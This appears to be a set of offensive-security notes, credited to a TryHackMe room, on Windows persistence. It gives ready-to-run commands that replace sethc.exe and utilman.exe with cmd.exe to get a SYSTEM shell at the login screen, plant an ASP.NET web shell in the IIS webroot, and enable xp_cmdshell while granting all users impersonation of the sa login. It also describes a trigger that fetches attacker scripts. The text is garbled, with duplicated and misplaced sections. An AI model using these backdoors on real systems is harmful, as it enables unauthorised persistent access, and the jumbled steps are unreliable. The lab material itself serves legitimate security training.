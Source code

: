 # Windows Persistence

## Sticky Keys

* To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing SHIFT 5 times.
* After inputting the shortcut, we should usually be presented with a screen that looks as follows:
* <img src="https://user-images.githubusercontent.com/75596877/181267438-2b171902-fbbe-4bb9-b08e-7c3c69e40795.png" alt="27e711818bea549ace3cf85279f339c8" data-size="original">
* After pressing SHIFT 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`.
* If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.
* A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`.
* That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.
* To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it.
* Only then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:

```
takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

* After doing so, lock your session from the start menu:
* You should now be able to press SHIFT five times to access a terminal with SYSTEM privileges directly from the login screen:

![](https://user-images.githubusercontent.com/75596877/181267037-094a49f2-7a4c-4a80-bee8-2a1ea8e14c52.png)

## Utilman

* Notice that this registry key has no equivalent in HKLM, making your backdoor apply to the current user only.
* After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).
* Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:
* When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with `SYSTEM` privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.
* To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

### Sticky Keys

```
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

* To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing SHIFT 5 times.
* After inputting the shortcut, we should usually be presented with a screen that looks as follows:

![](https://user-images.githubusercontent.com/75596877/181267438-2b171902-fbbe-4bb9-b08e-7c3c69e40795.png)

* To trigger our terminal, we will lock our screen from the start button:
* And finally, proceed to click on the "Ease of Access" button.

## Using Web Shells

* After pressing SHIFT 5 times, Windows will execute the binary in `C:\Windows\System32\sethc.exe`.
* If we are able to replace such binary for a payload of our preference, we can then trigger it with the shortcut. Interestingly, we can even do this from the login screen before inputting any credentials.
* A straightforward way to backdoor the login screen consists of replacing `sethc.exe` with a copy of `cmd.exe`.
* That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.
* To overwrite `sethc.exe`, we first need to take ownership of the file and grant our current user permission to modify it.
* Only then will we be able to replace it with a copy of `cmd.exe`. We can do so with the following commands:
* If you notice the compromised target is hosting a web server, we can take advantage of this.
* Download A ASP.NET web shell.
* https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
* Transfer it to the victim machine and move it into the webroot, which by default is located in the `C:\inetpub\wwwroot` directory:

```
takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

```
move shell.aspx C:\inetpub\wwwroot\
```

* After doing so, lock your session from the start menu:
* You should now be able to press SHIFT five times to access a terminal with SYSTEM privileges directly from the login screen:
* We can then run commands from the web server by pointing to the following URL:
* `http://MACHINE_IP/shell.aspx`

### Utilman

## Using MSSQL as a Backdoor

* Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:
* When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with `SYSTEM` privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.
* To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:
* Simply put, triggers in MSSQL allow you to bind actions to be performed when specific events occur in the database. Those events can range from a user logging in up to data being inserted, updated or deleted from a given table. For this task, we will create a trigger for any `INSERT` into the `HRDB` database.
* Before creating the trigger, we must first reconfigure a few things on the database.
* First, we need to enable the `xp_cmdshell` stored procedure. `xp_cmdshell` is a stored procedure that is provided by default in any MSSQL installation and allows you to run commands directly in the system's console but comes **disabled by default.**
* To enable it, let's open `Microsoft SQL Server Management Studio 18`, available from the start menu.
* By default, the local Administrator account will have access to all DBs.
* Once logged in, click on the New Query button to open the query editor:
* Run the following SQL sentences to enable the "`Advanced Options`" in the MSSQL configuration, and proceed to enable `xp_cmdshell`.

```
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

```
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

* To trigger our terminal, we will lock our screen from the start button:
* And finally, proceed to click on the "Ease of Access" button.
* After this, we must ensure that any website accessing the database can run `xp_cmdshell`.
* By default, only database users with the `sysadmin role` will be able to do so.
* Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the `sa user`, which is the default database administrator:

### Using Web Shells

```
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

* If you notice the compromised target is hosting a web server, we can take advantage of this.
* Download A ASP.NET web shell.
* [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx)
* Transfer it to the victim machine and move it into the webroot, which by default is located in the `C:\inetpub\wwwroot` directory:
* After all of this, we finally configure a trigger. We start by changing to the `HRDB` database:

```
move shell.aspx C:\inetpub\wwwroot\
```

```
USE HRDB
```

* We can then run commands from the web server by pointing to the following URL:
* `http://MACHINE_IP/shell.aspx`
* Our trigger will leverage `xp_cmdshell` to execute `Powershell` to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees table` of the `HRDB database`:

#### Credit:

All credit to the content of this page goes to the original author

* [https://tryhackme.com/room/windowslocalpersistence](https://tryhackme.com/room/windowslocalpersistence)
* [https://tryhackme.com/p/munra](https://tryhackme.com/p/munra)
* [https://tryhackme.com/p/tryhackme](https://tryhackme.com/p/tryhackme)
